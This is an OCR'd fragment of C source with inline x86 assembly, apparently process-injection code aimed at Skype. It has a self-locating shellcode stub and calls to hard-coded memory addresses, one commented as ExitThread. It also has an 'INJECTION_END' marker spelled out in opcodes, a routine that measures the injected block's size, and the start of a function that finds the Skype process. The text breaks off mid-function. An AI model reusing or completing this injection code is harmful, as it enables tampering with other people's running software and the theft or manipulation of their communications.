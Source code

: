 ```
                SeedGet:
            _emit 0xE8
                _emit 0x00
                _emit 0x00
                _emit 0x00
                _emit 0x00
                pop eax
                sub eax, 0x09
                mov eax, dword ptr[eax]
                ret
                BeginOCode :
            call KeyAddrGet
                mov ecx, eax
                call SeedGet
                mov edx, eax
                mov eax, 0x0075D470
                call eax
                //mov eax, 0x7C80C058 //ON COMMON MACHINE : ExitThread Address
                //mov eax, 0x77E54A8F //ON "NEUF" MACHINE
                mov eax, 0x401304
                call eax        
    
                DEC ECX //I
                DEC ESI //N
                DEC EDX //J
                INC EBP //E
                INC EBX //C
                PUSH ESP //T
                DEC ECX //I
                DEC EDI //O
                DEC ESI //N
                POP EDI //_
                INC EBP //E
                DEC ESI //N
                INC ESP //D
        }
    }        
    
    int SizeOfCode()
    {
        int Size;
        char *Proc;
        char Buffer[14] = { 0 };        
    
        Size = 0;
        Proc = (char *)InjectedCode;
        do
        {
            memcpy(Buffer, Proc, 13);
            Size++;
            Proc++;
        } while (strcmp(Buffer, "INJECTION_END"));
        return (Size - 1);
    }        
    
    DWORD GetSkypeProcessHandle()
    {
        HANDLE hProcessSnap;
        PROCESSENTRY32 PE32;
        DWORD SkypeProcess;        
    
        SkypeProcess = -1;
        hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
```